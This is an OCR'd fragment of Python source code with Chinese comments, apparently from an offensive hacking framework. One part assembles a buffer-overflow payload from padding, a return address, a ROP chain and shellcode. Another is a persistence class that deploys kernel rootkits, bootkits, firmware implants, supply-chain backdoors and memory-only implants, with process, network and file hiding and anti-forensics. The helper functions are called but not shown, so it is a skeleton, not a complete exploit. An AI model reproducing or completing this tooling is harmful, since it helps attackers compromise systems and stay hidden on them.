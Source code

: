                 # ROP链构造
                rop_chain = self.build_rop_chain(crash_data['binary'])
                
                # Shellcode生成
                shellcode = self.generate_shellcode(crash_data['arch'])
                
                # 利用载荷
                payload = b"A" * crash_data['offset']
                payload += struct.pack("<Q", crash_data['return_addr'])
                payload += rop_chain
                payload += shellcode
                
                return {
                    'type': 'buffer_overflow',
                    'payload': payload,
                    'reliability': self.calculate_reliability(crash_data)
                }
        ```

        **3. 高级持久化技术**
        ```python
        # persistence/advanced_persistence.py
        
        class AdvancedPersistence:
            def __init__(self):
                self.techniques = []
                
            def establish_multi_layer_persistence(self, access):
                """建立多层持久化"""
                
                persistence_methods = [
                    self.kernel_rootkit(),
                    self.bootkit_installation(),
                    self.firmware_implant(),
                    self.supply_chain_backdoor(),
                    self.legitimate_service_hijack(),
                    self.memory_only_implant(),
                    self.ai_powered_evasion()
                ]
                
                for method in persistence_methods:
                    if method.deploy(access):
                        self.techniques.append(method)
                
                return self.techniques
            
            def kernel_rootkit(self):
                """内核级rootkit"""
                return KernelRootkit(
                    hide_processes=True,
                    hide_network=True,
                    hide_files=True,
                    anti_forensics=True
                )
            